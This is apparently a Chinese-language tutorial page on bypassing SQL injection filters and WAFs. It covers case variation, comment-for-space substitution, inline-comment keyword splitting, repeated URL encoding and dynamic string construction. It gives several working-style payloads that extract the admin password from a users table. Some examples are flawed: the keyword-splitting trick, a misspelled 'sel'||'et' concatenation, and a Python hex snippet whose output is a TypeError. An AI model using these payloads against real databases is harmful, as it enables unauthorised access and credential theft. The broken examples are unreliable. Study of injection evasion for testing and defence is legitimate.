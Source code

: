 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串
```sql
select password from tblUsers
```
可以按照以下形式进行构造

```{.python .input  n=4}
for i in "select password from tblUsers":
    print(int(ord(i),16),end="")
```

```{.json .output n=4}
[
 {
  "ename": "TypeError",
  "evalue": "int() can't convert non-string with explicit base",
  "output_type": "error",
  "traceback": [
   "\u001b[0;31m---------------------------------------------------------------------------\u001b[0m",
   "\u001b[0;31mTypeError\u001b[0m                                 Traceback (most recent call last)",
   "\u001b[0;32m<ipython-input-4-67fb0f585669>\u001b[0m in \u001b[0;36m<module>\u001b[0;34m\u001b[0m\n\u001b[1;32m      1\u001b[0m \u001b[0;32mfor\u001b[0m \u001b[0mi\u001b[0m \u001b[0;32min\u001b[0m \u001b[0;34m\"select password from tblUsers\"\u001b[0m\u001b[0;34m:\u001b[0m\u001b[0;34m\u001b[0m\u001b[0m\n\u001b[0;32m----> 2\u001b[0;31m     \u001b[0mprint\u001b[0m\u001b[0;34m(\u001b[0m\u001b[0mint\u001b[0m\u001b[0;34m(\u001b[0m\u001b[0mord\u001b[0m\u001b[0;34m(\u001b[0m\u001b[0mi\u001b[0m\u001b[0;34m)\u001b[0m\u001b[0;34m,\u001b[0m\u001b[0;36m16\u001b[0m\u001b[0;34m)\u001b[0m\u001b[0;34m,\u001b[0m\u001b[0mend\u001b[0m\u001b[0;34m=\u001b[0m\u001b[0;34m\"\"\u001b[0m\u001b[0;34m)\u001b[0m\u001b[0;34m\u001b[0m\u001b[0m\n\u001b[0m",
   "\u001b[0;31mTypeError\u001b[0m: int() can't convert non-string with explicit base"
  ]
 }
]
```

```{.python .input}

```
